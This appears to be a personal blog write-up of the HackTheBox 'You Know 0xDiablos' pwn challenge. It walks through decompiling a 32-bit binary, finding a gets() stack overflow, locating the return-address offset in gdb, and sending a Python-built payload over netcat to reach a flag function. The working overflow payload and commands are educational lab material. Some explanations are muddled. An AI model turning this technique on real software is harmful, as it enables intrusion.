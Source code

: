 ```yaml
---
title: HackTheBox - Pwn - You Know 0xDiablos
date: 2022-03-01 12:00:00 +/- 0000
categories: [HackTheBox,Pwn,BinaryExploit]
author: Connor Weeks-Pearson
tags: [pwn,0xdiablos]
image: /assets/img/Icons/pwn/pwn.png
---
```


I've never done a binary exploit here on HTB, the first exposure i had to them was at university yeara ago, but it's always something i've found interesting, so here goes! I will be using google for help because how else am i  going to learn!

Description: I missed my flag

***IP: 139.59.183.98:32124***
***Files: 1 - vuln***

---

## Analysis

First thing lets discover the type of file `vuln` is:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
</pre>

`vuln` is an ELF 32-bit executable. Executing the file, the programme outputs some  text and then waits for a reply. It then redirects the input to the output.

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ ./vuln
You know who are 0xDiablos: 
test 
test
</pre>

Now it's time to use ghidra!

---

## Ghidra

Having never used ghidra before this was very fun! After loading the file into Ghidra,  i had a look at the different functions. Of these, 3 stood out: vuln, flag and main. 

### vuln()

```c++
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```

So what we can see here is there is an allocated 180 character array, that will hold the input using `gets` and then print it. After some googling, gets was replaced with fgets due to buffer overflow attacks.

### flag()

```c++
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function is a bit different. A char array size of 64 is allocated as `local_50`, reads the file "flag.txt" and saves it to `local_50`. If function params are the same as `0x21524111` and `0x3f212ff3`, it will print the content of `local_50`.

The assembly code for 0x21524111 is `0xdeadbeef` and 0x3f212ff3 is `0xc0ded00d`.

---

## Exploiting
I will be using gdp-peda to exploit the `gets` function using a buffer overflow to jump into `flag()` to get the flag. Lets load the file, and start. We should hit an automatic breakpoint.

```c
gdb-peda$ start
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xf7fb1a28 --> 0xffffd1ec --> 0xffffd3c1 ("COLORFGBG=15;0")
EBX: 0x0 
ECX: 0xffffd140 --> 0x1 
EDX: 0xffffd174 --> 0x0 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd120 --> 0xffffd140 --> 0x1 
EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)                                                                           
[-------------------------------------code-------------------------------------]                                                                          
   0x80492bc <main+11>: mov    ebp,esp
   0x80492be <main+13>: push   ebx
   0x80492bf <main+14>: push   ecx
=> 0x80492c0 <main+15>: sub    esp,0x10
   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
   0x80492c8 <main+23>: add    ebx,0x2d38
   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]                                                                          
0000| 0xffffd120 --> 0xffffd140 --> 0x1 
0004| 0xffffd124 --> 0x0 
0008| 0xffffd128 --> 0x0 
0012| 0xffffd12c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd130 --> 0xf7faf000 --> 0x1e9d6c 
0020| 0xffffd134 --> 0xf7faf000 --> 0x1e9d6c 
0024| 0xffffd138 --> 0x0 
0028| 0xffffd13c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]                                                                          
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x080492c0 in main ()
```

Knowing there is a 180 character buffer, i created a file containing 200 characters and saved it as in.txt, which will be used to discover the EIP offset.

```c
db-peda$ pattern_create 200 in.txt
Writing pattern of 200 chars to filename "in.txt"
gdb-peda$ r < in.txt
Starting program: /home/kali/Desktop/vuln < in.txt
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffd110 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
...
```

We can see the EIP address is `0x41417741`, so lets find the offset, so that we can control the EIP.

```c
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now lets get the address of `flag()`

```c
gdb-peda$ disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
   0x080491e3 <+1>:     mov    ebp,esp
   0x080491e5 <+3>:     push   ebx
   0x080491e6 <+4>:     sub    esp,0x54
   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
...
```

The address is 0x080491e2, which will translate to `\xe2\x91\x04\x08`

## Python Buffer Overflow

I will be using python to try and jump into the function `flag()`

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ python -c "print('A'*188 + '\xe2\x91\x04\x08')" | ./vuln           139 ⨯
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```



It successfully jumped into the code function. Now i know i need to pass the args into the function, and so some googling commenced. I read about `DUMB` addresses, in which the arguements called need to be supplied in reverse order. These parameters  are 0xdeadbeef and 0xc0ded00d, which when reversed turns into:

`\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

This turns the entire python script into:

`python -c "print('A'*188 + '\xe2\x91\x04\x08' + 'AAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | > exploit.txt`

## Deploying the Exploit
All that is needed now is to deploy the exploit to the docker server using netcat. This was done by the following:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ cat exploit.txt | nc 139.59.183.98 32124
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�DUMBﾭ�
HTB{flag}  
```
